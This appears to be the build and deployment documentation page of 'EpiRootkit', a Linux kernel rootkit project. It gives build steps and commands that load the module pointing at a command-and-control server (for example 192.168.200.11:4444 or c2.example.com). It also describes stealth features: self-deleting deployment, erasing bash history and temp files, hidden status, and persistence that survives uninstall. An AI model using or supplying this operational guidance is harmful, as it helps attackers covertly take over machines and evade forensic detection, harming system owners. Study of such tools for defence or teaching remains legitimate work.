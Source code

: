 ```yaml
---
title: "Build & Deployment"
description: "How to build and load EpiRootkit on Ubuntu 20.04"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 502
---
```




## Requirements

### System
- **OS**: Ubuntu 20.04 LTS
- **Kernel**: 5.4.0-* (check with `uname -r`)

### Dependencies
```bash
sudo apt update
sudo apt install -y build-essential linux-headers-$(uname -r)
```


## Build

```bash
cd rootkit
make clean && make
# ✓ Build successful: epirootkit.ko created
```

## Deployment

### Deployment Script

```bash
# Default usage (uses ./epirootkit.ko automatically)
sudo ./deploy_rootkit.sh

# Custom C2 server
sudo ./deploy_rootkit.sh ./epirootkit.ko address=192.168.200.11 port=4444

# Domain-based deployment
sudo ./deploy_rootkit.sh address=jules_chef_de_majeur.epirootkit.com

# Stealth deployment with self-cleanup
sudo ./deploy_rootkit.sh --self-delete

# Verbose deployment (show output)
sudo ./deploy_rootkit.sh --verbose
```

### Deployment Options
| Option | Description |
|--------|-------------|
| `--verbose` | Show detailed output during deployment |
| `--self-delete` | Remove script after successful deployment |
| `status` | Check current deployment status |
| `uninstall` | Remove module and cleanup |

### Advanced Usage
```bash
# Stealth deployment
sudo ./deploy_rootkit.sh address=c2.example.com port=443 --self-delete

# Deploy with verbose output then self-destruct
sudo ./deploy_rootkit.sh --verbose --self-delete

# Check deployment status
sudo ./deploy_rootkit.sh status
# Status: Active (hidden)
# Note: Persistence is managed internally by the rootkit

# Remove deployment
sudo ./deploy_rootkit.sh uninstall
# Module uninstalled
```

### Manual Loading (Alternative)
```bash
# Load with domain
sudo insmod epirootkit.ko address=jules-c2.example.com

# Load with IP
sudo insmod epirootkit.ko address=192.168.200.11 port=4444

# Load with defaults from config.h
sudo insmod epirootkit.ko
```

## Self-Cleanup Features

The deployment script includes stealth capabilities:

### Trace Cleanup
- **Temp files**: Removes all `/tmp/jules_est_bo_*` files
- **History cleanup**: Removes deployment commands from bash history
- **Stealth backup**: Creates and removes backup module files

### Self-Destruction
```bash
# Deploy and vanish completely
sudo ./deploy_rootkit.sh --self-delete
# Deployment successful
# Self-deleting deployment script...
# (script file removed automatically)
```

## Management

### Check Status
```bash
sudo ./deploy_rootkit.sh status
# Status: Active (hidden)
# Note: Persistence is managed internally by the rootkit
```

### Default Behavior
- **Module file**: Uses `./epirootkit.ko` by default if no file specified
- **C2 address**: Uses `192.168.200.11:4444` by default
- **Stealth mode**: Silent operation by default (use `--verbose` for output)
- **Persistence**: Automatically handled by rootkit internal mechanisms

### Complete Removal
```bash
sudo ./deploy_rootkit.sh uninstall
# Module uninstalled
# Note: Rootkit persistence may remain - use rootkit's own removal commands
```

**Domain Support**: The rootkit supports both domain names and IP addresses. For DNS resolution details, see [DNS Resolution](./features/dns-resolution.md).